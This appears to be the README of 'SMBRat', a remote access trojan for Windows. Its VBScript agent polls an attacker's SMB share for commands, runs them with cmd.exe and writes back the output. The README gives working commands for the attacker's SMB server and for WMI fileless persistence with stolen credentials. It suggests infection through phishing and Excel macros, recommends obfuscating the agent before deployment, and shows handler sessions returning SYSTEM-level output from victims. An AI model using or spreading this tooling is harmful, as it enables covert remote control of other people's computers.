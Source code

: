 # SMBRat
A Windows Remote Administration Tool in Visual Basic


## Ingredients

### Handler

The `handler` needs an SMB Server to work. The `smbserver.py` module from [*Core Security's* `impacket`](https://github.com/coresecurity/impacket) package will do.

Most probably `smbd` would also do the trick, but it hasn't been tested yet.

#### Setting up the SMBServer

A share with name `D$` is needed, to look like a legit Windows host's SMB.

```bash
(impacket) root@Deskjet-4540:/home/unused/Tools/RATs/SMBRat# mkdir Share
(impacket) root@Deskjet-4540:/home/unused/Tools/RATs/SMBRat# smbserver.py -comment "My Share" "D$" Share/
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### Agent

The `agent` is a *Visual Basic Script* that runs on the infected host and connects to the *SMB Server*. It creates a folder in there named after the host's `hostname` and primary `MAC` address (trying to be *unique* and *informative* at the same time for reporting purposes).
It does **NOT** use a drive letter to *Mount* the Share, just uses `UNC paths` to directly read remote files.
It also injects the `UNC path` into the `%PATH%` variable of its execution environment.

#### Agent's Execution

The `agent` is configured to **run once**. **Statelessly**.
It looks for a file named `exec.dat` in the folder it created in the *SMB Share*
If it finds the file, it **reads its content** and executes it as a command with `cmd.exe /c <command>` like a *semi-interactive shell*.
The command's response is stored in `output.dat` (next to `exec.dat`). 
Then deletes the `exec.dat` file.



## Infection Scheme

A *While loop* can be added to the `agent.vbs`  file's beginning, with a delay statement of multiple seconds (10 secs is ideal), and it will be able to infect windows hosts by *double clicking* / *phishing* / *excel macros* / etc...

Yet, if a Windows host has *RPC* enabled, it is possible to install the *VBS* file as *fileless malware* through `WMI` and the fabulous `impacket` package with a command like:
```bash
(impacket) unused@Deskjet-4540:~/Tools/RATs/SMBRat$ wmipersist.py '<username>:<password>@<hostname/ipaddress>' install -vbs agent.vbs -name smbrat -timer 10
```  

It is also possible to utilize the `WMI` tool by local access to install the `agent.vbs`

### Obfuscation?
Visual Basic Scripts can be nicely obfuscated as well minified.

It can be really handy to give it a spin before "deploying" :wink:
* [Online Tool for VBS Obfuscation](https://isvbscriptdead.com/vbs-obfuscator/)
* [Github Repo](https://github.com/DoctorLai/VBScript_Obfuscator)

## Directory Structure in the *SMB Share*

The Directory shared through SMB (named `Share` in this example) will grow using the below structure:
```
	Share/
	|
	\--Project1/
	|	|
	|	\--<Hostname1>-<MAC_ADDRESS1>/
	|	\--<Hostname2>-<MAC_ADDRESS2>/
	|
	\--Project2/
		|
		\--<Hostname3>-<MAC_ADDRESS3>/
	[...]
```

#### Never create folders manually in the Shared Folder



## Barebone Usage

~~At time of writing, no `Handler` shell is implemented,~~ so usage can be done by just using a command like `watch` to inspect the `output.dat` file:

```bash
$ watch -n0.2 cat Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/output.dat
```
and `echo` to write stuff to the `exec.dat` file:
```bash
$ echo 'whoami /all' > Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/exec.dat
```

## The `handler.py`

The experimental shell works as follows: 
```bash
$ python handler.py Share/
SMBRat> 
# When a new host gets infected:
[+] Agent "DESKTOP-EG4OE7J" (00:0C:29:2B:9F:AF) just checked-in for Project: "projectName"

SMBRat> execall whoami /user

[>] Sending 'whoami /user' to "projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF" ...
		
SMBRat> 
[<] Response from 'projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF': 


USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

^^^^^^^^^^^^^^^^^^^^ projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF ^^^^^^^^^^^^^^^^^^^^
SMBRat> 
				
```

## Outstanding Pitfalls

### SMBv1 is **Not Encrypted** :

```bash
# tcpdump -i eth0 -A
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

[...]

15:25:06.695502 IP Deskjet-4540.microsoft-ds > 172.16.47.129.3128: Flags [P.], seq 2876:2971, ack 4791, win 2110, length 95 SMB PACKET: SMBreadX (REPLY)

E...,E@.@.V.../.../....8
.&Mi~.6P..>.......[.SMB........................
.@............ .;........... .net localgroup "administrators"

[...]

15:25:06.702916 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 4917:5111, ack 3097, win 2052, length 194 SMB PACKET: SMBtrans2 (REQUEST)

E...E.@......./.../..8..i~..
.'*P....b.......SMB2......................

.F..z.....(...........z.D.........}..........\.p.r.o.j.e.c.t.N.a.m.e.\.D.E.S.K.T.O.P.-.E.G.4.O.E.7.J.-.0.0.:.0.C.:.2.9.:.2.B.:.9.F.:.A.F.\.o.u.t.p.u.t...d.a.t...

[...]

15:25:06.751372 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 6049:6393, ack 3748, win 2050, length 344 SMB PACKET: SMBwrite (REQUEST)

E...E.@....L../.../..8..i~. 
.).P....*.....T.SMB........................
.T....$.......'..$.Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Admin
Administrator
defaultuser0
The command completed successfully.

[...]

```

The traffic (file *contents* and *paths*) are tranfered in plaintext if *SMBv1 Server* is used (e.g `impacket` 's `smbserver.py`).

* An encryption/obfuscation layer would totally solve this one!

### The whole Share is *READ/WRITE* to Everyone:

All Agents can modify files stored in the **Whole Share**. Meaning they can modify the `exec.dat` of other Agents...
An `smbmap` will shed light:
```bash
$ smbmap -H 172.16.47.189
[+] Finding open SMB ports....
[+] User SMB session establishd on 172.16.47.189...
[+] IP: 172.16.47.189:445	Name: Deskjet-4540                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	D$                                                	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\D$\SVNRmxBFAO, plreae remove manually
	IPC$                                              	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\IPC$\SVNRmxBFAO, plreae remove manually
```
#### Pay attention to the lack of `-u` and `-p` parameters of `smbmap`.
This is a *NULL session* (like FTP anonymous login). **EVERYONE can change the SHARE Files** and get *Remote Code Execution* on all infected machines.

* Better fire up some `iptables` here...
